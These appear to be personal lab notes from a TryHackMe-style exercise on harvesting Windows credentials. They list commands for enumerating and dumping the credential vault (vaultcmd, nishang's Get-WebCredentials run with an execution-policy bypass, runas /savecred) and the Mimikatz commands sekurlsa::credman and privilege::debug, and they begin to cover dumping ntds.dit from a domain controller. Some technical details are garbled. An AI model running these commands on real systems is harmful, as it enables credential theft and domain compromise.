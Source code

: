     Web credentials contain authentication details stored in Internet browsers or other applications.
    Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
    Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
    Certificate-based credentials: Athunticated details based on certifications.



list available credentials 
vaultcmd /list

check if credentials exists
VaultCmd /listproperties:"Web Credentials"


Listing Credentials Details
VaultCmd /listcreds:"Web Credentials"


Credential Dumping
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1
powershell -ex bypass
Import-Module Get-WebCredentials.ps1
Get-WebCredentials

RunAs
cmdkey /list
runas /savecred /user:THM.red\thm-local cmd.exe

Mimikatz
privilege::debug
sekurlsa::credman


# NTDS Domain Controller

NTDS.DTS data consists of three tables as follows:

    Schema table: it contains types of objects and their relationships.
    Link table: it contains the object  attributes and their values.
    Data type: It contains users and groups.


in order to decrypt ntd.dts we must have system boot key to decrypt lsa isolated credential which store on SYSTEM file system


Ntdsutil
Ntdsutil Ntdsutil is a Windows utility to used manage and maintain Active Directory configurations

    Restore deleted objects in Active Directory.
    Perform maintenance for the AD database.
    Active Directory snapshot management.
    Set Directory Services Restore Mode (DSRM) administrator passwords.


Local Dumping (No Credentials)

dump following files 
    C:\Windows\NTDS\ntds.dit
